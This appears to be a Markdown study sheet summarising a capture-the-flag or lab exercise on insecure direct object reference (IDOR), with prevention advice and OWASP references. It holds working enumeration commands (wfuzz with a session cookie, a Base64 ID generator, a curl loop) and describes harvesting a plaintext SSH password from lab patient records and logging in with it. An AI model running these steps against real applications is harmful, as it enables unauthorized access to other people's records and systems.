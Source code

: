 
# Insecure Direct Object Reference (IDOR)

## What is IDOR?
**Insecure Direct Object Reference (IDOR)** is a type of access control vulnerability that occurs when an application exposes a reference to an internal object (such as a file, database record, or key) without sufficient authorization checks.

**Example scenario:**
```
http://example.com/user/profile?uid=123
```
If an attacker changes `uid=123` to `uid=124`, they may access another user's profile.

---

## How is IDOR discovered?
IDOR is typically found by **manipulating parameters** such as:
- `uid` (user IDs)
- `id` (resource IDs)
- filenames or paths
- numerical or Base64 encoded identifiers

**Enumeration can be automated** with tools like `wfuzz` or manual testing via Burp Suite.

---

## Commands and Examples from This Conversation

### wfuzz Command Example
```
wfuzz -c -z file,/usr/share/SecLists/Fuzzing/6-digits-000000-999999.txt -H "Cookie: PHPSESSID=df1ff45401a6cc7e027d55d7a66587bb" http://idor-sandbox:80/user/?uid=FUZZ
```
- `-c`: color output
- `-z file,...`: wordlist
- `-H`: custom header (session cookie)
- `FUZZ`: injection point

**Response columns:**
- **ID:** Request number
- **Response:** HTTP status code (200, 302, 404, etc.)
- **Lines/Words/Chars:** Helps detect anomalies
- **Payload:** Tested value

Example output interpretation:
```
ID           Response   Lines   Word   Chars   Payload
000000003:   200        15 L    60 W   789 Ch  "23101"
```
Indicates this payload returned different content and should be investigated.

---

## SSH Credential Exfiltration Example
**Scenario:**
- Enumerated patient records in OpenEMR to find credentials.
- Retrieved:
  - **Username:** siren
  - **Password:** healthmatters!
- Connected to SSH on port 2222:

```
ssh -p 2222 siren@192.168.168.105
```
**Important:** Always confirm the username (`siren`) and not the container label (`openemr_adminbox-instance_1`).

---

## Base64 Enumeration Example
Generate Base64 IDs 1-150:
```bash
for i in $(seq 1 150); do
  echo -n "$i" | base64
done
```

Example use in wfuzz:
```
wfuzz -c -z file,base64_ids.txt -H "Cookie: PHPSESSID=YOURSESSION" "http://idor-sandbox/challenge/?uid=FUZZ"
```

---

## Manual Enumeration Example Script
```bash
for i in {1..50}; do
  echo "Checking uid=$i"
  curl -s "http://idor-sandbox:80/user/?uid=$i" | grep -i "flag"
done
```
This loops over IDs and searches the response for "flag".

---

## Common Response Codes
- **200:** Success (data found)
- **302:** Redirect (may be a sign of protected or missing data)
- **404:** Not found
- **403:** Forbidden

---

## Best Practices to Prevent IDOR
- Always perform **authorization checks** on the server side.
- Use **indirect references** (e.g., UUIDs or hashes).
- Enforce **access control policies** consistently.
- Avoid relying solely on hidden or obfuscated identifiers.

---

## References
- OWASP Top 10: Broken Access Control
- OWASP Cheat Sheet Series: IDOR Prevention

---

## Notes from This Conversation
- You enumerated ranges (1–150 Base64, 15990–32000 numbers).
- You used wfuzz with `--hh` and `--hc` to filter responses.
- You handled SSH host authenticity prompts.
- You clarified the difference between usernames and container labels.
- You retrieved credentials (`siren`/`healthmatters!`) and connected via SSH.

---

**End of Notes**
